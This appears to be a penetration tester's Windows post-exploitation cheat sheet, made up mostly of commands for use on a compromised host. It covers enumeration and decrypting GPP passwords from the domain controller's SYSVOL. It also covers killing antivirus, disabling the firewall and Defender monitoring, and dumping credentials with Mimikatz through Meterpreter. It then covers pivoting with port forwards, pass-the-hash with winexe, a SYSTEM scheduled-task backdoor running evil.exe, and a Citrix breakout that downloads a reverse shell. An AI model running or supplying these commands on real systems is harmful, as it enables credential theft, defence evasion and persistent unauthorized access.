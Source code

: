 > **RUN**

1. Powerup
2. Beroot
3. Privesc (Enjoiz)
3. wesng

```whoami```

```net user /whoami```

```whoami /priv```

```ipconfig```

```systeminfo```

> **ALERT**: Set up persistence. See RTFM Page ???

```wesng```

What architecture?

Run enum script

Upload accesschk if not present

Run Batch or PS scripts

#### Identify  IP and name of internal DC ####

##### Map DC drive to local #####

```net use z: \\$dc\sysvol```

```z:```
##### Search for interesting files #####

```dir /s Groups.xml```

##### If getting this far, copy to local and decrypt #### 

```gpp-decrypt $hash```

#### AV Running? I can killz?

```tasklist /svc```

```tasklist /svc | find /I “avg”```

##### Powershell #####

```Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct  -ComputerName $name```

##### Batch #####

```wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayNamed```

```sc stop $process```

```sc config "service name" start= disabled```

```taskkill /F /IM $avprocess.exe```

```net stop “service name"```

#### Command Execution Restrictions ####

Check lolbas

##### rundll32? #####

```rundll32 $full_path_to_evil.dll,EntryPoint```

or 

```rundll32 $full_path_to_evil.dll,0```


##### FW? #####

```netsh firewall show opmode```

```netsh firewall set opmode mode=disable```


##### Stop WInDefend Monitoring #####

```Set-MpPreference -DisableRealtimeMonitoring $true```

##### Migrate Meterpreter 32 -> 64 bit

meterpreter: ```ps -S "winlogon"```

meterpreter: ```migrate $new_pid```

##### Mimikatz

meterpreter: ```load mimikatz```

meterpreter: ```msv```

meterpreter: ```kerberos```

### Pivot ###

#### netsh ####

```netsh advfirewall firewall show rule name=all | find "Rule Name:" | find "$NameLookingFor"```

```netsh interface portproxy add v4tov4 listenport=8001 connectport=9001 connectaddress=127.0.0.1```

```netstat -ano | findstr :9001```

#### Meterpreter 

1. Note IP address

2. Exit shell

3. Background Meterpreter

4. ```route add 10.10.0.0 255.255.255.0 $sessionNumber```

NOTE: *10.10.0.0 indicates the target internal network*

5. Reconnect to session

6. portfwd add -l $local_port -p $remote_port -r $target_ip 

##### Pass the Hash (PTH)

1. Acquire password

2. Get winexe

3. Set up port forward if required

4. ```Kali:~# winexe -U $username%password //127.0.0.1 "cmd"```

#### Once Admin Set Up Persistent Backdoor

NOTE: *pwn == Task name*

```schtasks /create /ru SYSTEM /sc minute /MO 10 /tn $pwn /tr "\C:\evil.exe""```

```C:\ exit```

```meterpreter: portfwd delete -l $local_port -p $remote_port -r $target_ip ```

```background```

Start new handler and wait

#### Citrix

Login

What apps are available?

Open other programs?

##### Example: Internet Explorer #####

Click Help

Open notepad

Save 'powershell' to .bat file

Use Notepad again to open .bat (Run it)

Download new reverse shell

Handle with meterpreter

#### Elevate Existing Process via privesc exploit

Get meterpreter pid

```meterpreter: getpid```

```meterpreter: execute -H -f evil.exe -p "-pid $pid"```

